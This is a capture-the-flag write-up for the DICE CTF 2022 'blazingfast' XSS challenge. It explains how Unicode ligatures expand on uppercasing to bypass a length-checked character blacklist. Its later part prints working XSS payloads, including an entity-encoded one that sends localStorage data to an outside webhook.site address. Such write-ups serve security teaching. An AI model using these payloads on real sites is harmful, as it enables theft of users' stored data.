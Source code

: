 ```yaml
---
title: DICE CTF 2022 – blazingfast
date: '2022-02-06'
draft: false
authors: ['thebish0p']
tags: ['DICE CTF 2022', 'Web', 'XSS', 'Unicode']
summary: 'Bypassing length limitation with unicode'
---
```


## blazingfast

> by larry
>
> I made a blazing fast MoCkInG CaSe converter!
>
> [blazingfast.mc.ax](blazingfast.mc.ax)
>
> [Admin Bot](https://admin-bot.mc.ax/blazingfast)
>
> Downloads
>
> [blazingfast.tar](https://static.dicega.ng/uploads/c37db76fc7e66f32dee53b48652868aefd79193c1b5936e1f2441e3c70cfcdfa/blazingfast.tar)
>
> [admin-bot.js](https://static.dicega.ng/uploads/1286aac5ffb57d27c1dc1e0221c7c3691e575181720449df62dff67d10ec6749/admin-bot.js)
>
> [blazingfast.c](https://static.dicega.ng/uploads/209c5168fc160763f28a23f23280f921c7e544fb87323726e48584b89d774825/blazingfast.c)

We start by noticing that we have a challenge link and an admin bot link which means this challenge is an XSS challenge. We start with browsing the website and testing it’s normal behaviour as shown below:

![website.png](/static/images/dice-ctf-2022/blazing-fast/website.png)

Moving to the source code, we start by analyzing `index.html`:

```javascript
let blazingfast = null

function mock(str) {
  blazingfast.init(str.length)

  if (str.length >= 1000) return 'Too long!'

  for (let c of str.toUpperCase()) {
    if (c.charCodeAt(0) > 128) return 'Nice try.'
    blazingfast.write(c.charCodeAt(0))
  }

  if (blazingfast.mock() == 1) {
    return 'No XSS for you!'
  } else {
    let mocking = '',
      buf = blazingfast.read()

    while (buf != 0) {
      mocking += String.fromCharCode(buf)
      buf = blazingfast.read()
    }

    return mocking
  }
}

function demo(str) {
  document.getElementById('result').innerHTML = mock(str)
}

WebAssembly.instantiateStreaming(fetch('/blazingfast.wasm')).then(({ instance }) => {
  blazingfast = instance.exports

  document.getElementById('demo-submit').onclick = () => {
    demo(document.getElementById('demo').value)
  }

  let query = new URLSearchParams(window.location.search).get('demo')

  if (query) {
    document.getElementById('demo').value = query
    demo(query)
  }
})
```

As you can see, we can input data in the `demo` parameter and the data provided will be processed by `blazingfast.mock()` which is originating from the `blazingfast.c` provided:

```C
int length, ptr = 0;
char buf[1000];

void init(int size) {
	length = size;
	ptr = 0;
}

char read() {
	return buf[ptr++];
}

void write(char c) {
	buf[ptr++] = c;
}

int mock() {
	for (int i = 0; i < length; i ++) {
		if (i % 2 == 1 && buf[i] >= 65 && buf[i] <= 90) {
			buf[i] += 32;
		}

		if (buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"') {
			return 1;
		}
	}

	ptr = 0;

	return 0;
}
```

Several checks are made on our input. Our input can’t be more than 1000 characters and a few characters are blacklisted : [`<`, `>`, `&`, `"`].

> After a lot of trial and error we had an idea that in order to bypass these checks and execute our JavaScript payloads we need to bypass the 1000 characters.

![too_long](/static/images/dice-ctf-2022/blazing-fast/too_long.png)

We stumbled upon an article talking about [Exploiting XSS with 20 characters limitation](https://jlajara.gitlab.io/web/2019/11/30/XSS_20_characters.html) by using unicode characters. In this article, the author gives us a great example :

> Notice that ﬀ characters is only one character but when browsers interpret it, it will be expanded as ff two characters.

We proceed by testing this idea by sending around 600 `ﬀ` which would unpack to 1200 characters. We don’t get any error as shown below:

![No Error](/static/images/dice-ctf-2022/blazing-fast/no_error.png)

This is because `"ﬃ".toUpperCase()` becomes `"FFI"`. The string written to WSAM module is the converted one (disregarding the memory allocated), but the length reported was of the original string. This discrepancy allowing us to write $3n+m$ characters to the memory with only $n+m$ bytes checked for blacklisted characters, thus bypassing the check.

We proceed by using this technique and adding to it our XSS payload to see if we can pop an alert:

```
 ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=alert(1)>
```

To our surprise, we get an error `ALERT is not defined`:

![ALERT_ERROR](/static/images/dice-ctf-2022/blazing-fast/ALERT_ERROR.png)

The issue here is that all our payload will be in upper case letters. We came up with a workaround by using XML encoding followed by URL encoding as following:

```
 ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

And we popped an alert !
![XSS Alert](/static/images/dice-ctf-2022/blazing-fast/alert_pop.png)

We continue by crafting a payload to extract the flag and send it back to our webhook.

```
<img src=x onerror=location.href='https://webhook.site/38689352-bda5-4841-80e3-4a48e1655deb?q='.toLowerCase()+localStorage.getItem('flag'.toLowerCase())>
```

After XML and URL encoding our input we send it to the admin bot as shown below:

```
ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=&#X6c;&#X6f;&#X63;&#X61;&#X74;&#X69;&#X6f;&#X6e;.&#X68;&#X72;&#X65;&#X66;=&#X27;https://webhook.site/38689352-bda5-4841-80e3-4a48e1655deb?q=&#X27.&#X74;&#X6f;&#X4c;&#X6f;&#X77;&#X65;&#X72;&#X43;&#X61;&#X73;&#X65;()&#X2B;&#X6c;&#X6f;&#X63;&#X61;&#X6c;&#X53;&#X74;&#X6f;&#X72;&#X61;&#X67;&#X65;.&#X67;&#X65;&#X74;&#X49;&#X74;&#X65;&#X6d;(&#X27;flag&#X27;.&#X74;&#X6f;&#X4c;&#X6f;&#X77;&#X65;&#X72;&#X43;&#X61;&#X73;&#X65;())>
```

Finally we receive our flag from the server :

![SUCCESS](/static/images/dice-ctf-2022/blazing-fast/flag.png)
